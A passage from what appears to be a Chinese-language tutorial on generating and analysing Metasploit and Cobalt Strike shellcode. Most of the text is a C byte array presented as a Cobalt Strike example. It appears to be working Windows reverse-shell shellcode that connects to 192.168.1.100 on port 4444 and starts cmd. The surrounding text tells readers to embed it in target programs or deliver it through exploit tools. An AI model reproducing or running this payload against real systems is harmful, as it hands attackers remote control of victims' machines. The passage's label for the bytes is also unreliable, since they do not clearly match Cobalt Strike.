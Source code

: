 ### 使用方法

- 生成 shellcode 后，将其嵌入目标程序或通过漏洞利用工具发送到目标系统。
- 常用工具：`msfvenom`、`msfconsole`。
## CobaltStrike Shellcode

### 生成 Shellcode

CobaltStrike 使用 `Cobalt Strike Beacon` 生成 shellcode，可以通过其图形界面生成各种类型的 shellcode。

### 分析 Shellcode

CobaltStrike 生成的 shellcode 通常更加复杂和高级，包含如下部分：

1. **Stager**：用于下载和执行实际 payload 的小型代码段。
2. **Stage**：实际的 payload，包含 CobaltStrike Beacon，允许攻击者控制被感染的系统。

### 示例代码

以下是一个简单的 CobaltStrike shellcode 示例：
```C
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c"
"\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20"
"\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x5f\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68\x77"
"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00"
"\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xc0\xa8"
"\x01\x64\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x00\x00\x89\xe6"
"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff"
"\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68"
"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xdd\x8b\x36\x6a\x40\x68"
"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e"
"\xcc\x8b\x06\x50\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24"
"\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56"
"\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
"\x87\x1d\x60\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff"
"\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5";

```
### 反汇编
